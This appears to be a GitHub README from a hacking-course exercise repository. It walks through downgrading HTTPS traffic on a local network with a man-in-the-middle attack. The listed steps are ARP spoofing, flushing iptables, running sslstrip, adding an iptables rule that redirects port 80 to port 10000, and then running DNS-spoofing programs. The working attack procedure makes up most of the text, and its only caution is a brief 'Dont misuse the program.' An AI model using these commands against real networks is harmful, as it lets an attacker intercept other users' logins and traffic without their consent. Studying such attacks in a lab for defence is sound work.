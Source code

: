 The programs (which we have used till now on websites) will work only for http sites. 
In order to run those programs on HTTPS sites we follow the following instructions:
## Steps to execute the program:

1. <ins> Become man-in-the-middle</ins>: In order to be a man-in-the-middle, you 
need to execute the ARP Spoofer.
 
2. <ins>flush the iptables:</ins>
        
		
		iptables --flush
		

3. <ins>Run sslstrip:</ins>
For this just type the command 
		
		
		sslstrip
		

4. Run the following command:
		
		
		iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
		

5. Then run the program (like DNS_spoofer) in the same way as executed previously.
6. Dont forget to change port 80 to port 10000 at those places where port 80 has been used.   

![sslstrip](https://user-images.githubusercontent.com/68290275/91204652-0363d500-e722-11ea-8cce-048ffe39a243.jpg)
image_source: zsecurity.org

### Note:

- The program is to be run through command line (linux).
- Dont misuse the program.
